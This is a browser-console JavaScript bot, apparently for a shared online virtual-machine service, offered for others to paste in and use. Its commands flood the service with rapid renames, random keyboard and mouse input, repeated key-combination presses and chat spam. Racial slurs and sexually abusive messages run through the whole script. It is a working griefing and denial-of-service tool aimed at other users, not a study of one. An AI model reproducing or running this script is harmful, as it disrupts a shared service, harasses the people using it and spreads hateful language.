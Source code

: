 To use NiggaBot enter this script in console: var name=prompt("What is ur fucking name bitch?");tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "niggabot has been invited by @" + name + "!"); tunnel.sendMessage("rename", name); var input=document.createElement("input");input.placeholder="Bot commands here..."; input.id="inp"; document.body.appendChild(input);var btn=document.createElement("button");btn.onclick=getInput;btn.innerHTML="Send!"; document.body.appendChild(btn); var btn2=document.createElement("button");btn2.onclick=function(){window.open("http://www.niggacvmbot.ml");};btn2.innerHTML="Commands"; document.body.appendChild(btn2); location.href="#inp"; function getInput(){ tunnel.sendMessage("chat", input.value); if (input.value === "!fuckvm"){input.value=""; tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "nigga script has been requested. Message by niggabot, at go.fuck.your.mom."); tunnel.sendMessage("rename", name); function changeName() {tunnel.sendRawMessage('6.rename,8.' + Math.floor(100000000 * Math.random()) + ';'); setTimeout(changeName,20)} function spam() {tunnel.sendMessage('turn');var num= Math.floor(2 * Math.random()); var num2 =Math.floor(2 * Math.random()); var h = (num2 * Math.floor(1024 * Math.random()) + 1 - num2) * Math.floor(512 * Math.random());var v = num * Math.floor(768 * Math.random()) + (1 - num) * Math.floor(50 * Math.random() + 718); tunnel.sendMessage('mouse', (h + 10).toString(), (v - 10).toString(),1); tunnel.sendMessage('mouse',(h + 10).toString(), (v - 10), toString(),0);tunnel.sendMessage('key',65000 + Math.floor(536 * Math.random()),Math.floor(2 * Math.random())); tunnel.sendMessage('key',num,1);tunnel.sendMessage('key',num,0);tunnel.sendMessage('key', 0xffe3,1);tunnel.sendMessage('key', 0xffe9,1); tunnel.sendMessage('key',0x31,1);tunnel.sendMessage('key', 0x31,0);tunnel.sendMessage('key',0xffe9,0);tunnel.sendMessage('key',0xffe3,0);} changeName(); setInterval(spam, 1);}if (input.value === "!niggapspam"){input.value=""; tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "nigga spam turned on. Message by niggabot, at go.fuck.your.mom."); tunnel.sendMessage("rename", name); setInterval(function(){tunnel.sendMessage('turn');}, 10);}if (input.value === "!sexspam"){input.value=""; tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "sex spam will be turned on. To stop sex spam, press CTRL+Q. Message by niggabot, at go.fuck.your.mom."); tunnel.sendMessage("rename", name); var p=prompt("What would you like to sex spam?"); var b=p+" вЂЏвЂЏвЂЋ "; var i1=setInterval(function(){tunnel.sendMessage("chat", p)}, 1000); var i2=setInterval(function(){tunnel.sendMessage("chat", b)}, 500); document.addEventListener("keydown", function (event) {if(event.ctrlKey && event.keyCode == 81) {clearInterval(i1);clearInterval(i2);tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "sex spam is now turned off. Message by niggabot, at go.fuck.your.mom."); tunnel.sendMessage("rename", name); }}); var div=document.createElement("div");div.style.backgroundColor="black";div.style.color="white";div.innerHTML="Note: to stop sex spam, press CTRL+Q.";div.style.position="fixed";div.style.bottom= "90%";div.style.left="42%"; div.style.zIndex="999999999"; document.body.appendChild(div);setTimeout(function(){div.style.display="none";}, 4000);}if (input.value === "!sexname"){input.value=""; tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "sex name change turned on. Message by niggabot, at go.fuck.your.mom."); tunnel.sendMessage("rename", name); setInterval(function(){tunnel.sendRawMessage("6.rename,8." + Math.floor(100000000 * Math.random()) + ";");}, 10);} if (input.value === "!sexmessage"){input.value=""; var rArray=["your mom sucks dicks", "anal sex", "Flying dicks"];var num=Math.floor(Math.random() * 4);tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", rArray[num]); tunnel.sendMessage("rename", name);}if (input.value === "!breaksexboard"){input.value=""; tunnel.sendMessage("chat", "sexboard will be partially broken. Message by niggabot, at go.fuck.your.mom."); setInterval(function(){tunnel.sendMessage('key', 0xffe3,1);tunnel.sendMessage('key', 0xffe9,1); tunnel.sendMessage('key',0x31,1);tunnel.sendMessage('key', 0x31,0);tunnel.sendMessage('key',0xffe9,0);tunnel.sendMessage('key',0xffe3,0);}, 10);}if (input.value === "!niggashot"){input.value=""; var oj=document.createElement("a");var vm=prompt("What VM are you on? (Example: vm5 is nigga windows10)");oj.href="http://computernewb.com/screenshots/" + vm + ".jpg"; oj.innerHTML="a"; oj.download="download";oj.style.opacity="0";document.body.appendChild(oj);oj.click();}if (input.value === "!help"){input.value=""; tunnel.sendMessage("rename", "niggabot");tunnel.sendMessage("chat", "For full list of niggabot commands, see go.fuck.your.mom/commands.txt."); tunnel.sendMessage("rename", name);} if (input.value === "!niggassage"){input.value=""; setInterval(function(){tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", "Want niggabot for yourself? Go to go.fuck.your.mom to get it."); tunnel.sendMessage("rename", name);}, 100000);}if (input.value === "!niggamessage"){input.value=""; var p=prompt("What would you like to say nigger?"); tunnel.sendMessage("rename", "niggabot"); tunnel.sendMessage("chat", p); tunnel.sendMessage("rename", name);}document.body.onbeforeunload=function(){tunnel.sendMessage("rename", "niggabot");tunnel.sendMessage("chat", "niggabot has disconnected because @" + name + " fucked up like nigga."); tunnel.sendMessage("rename", name); };if (input.value === "!disconnect"){input.value=""; location.reload();}}

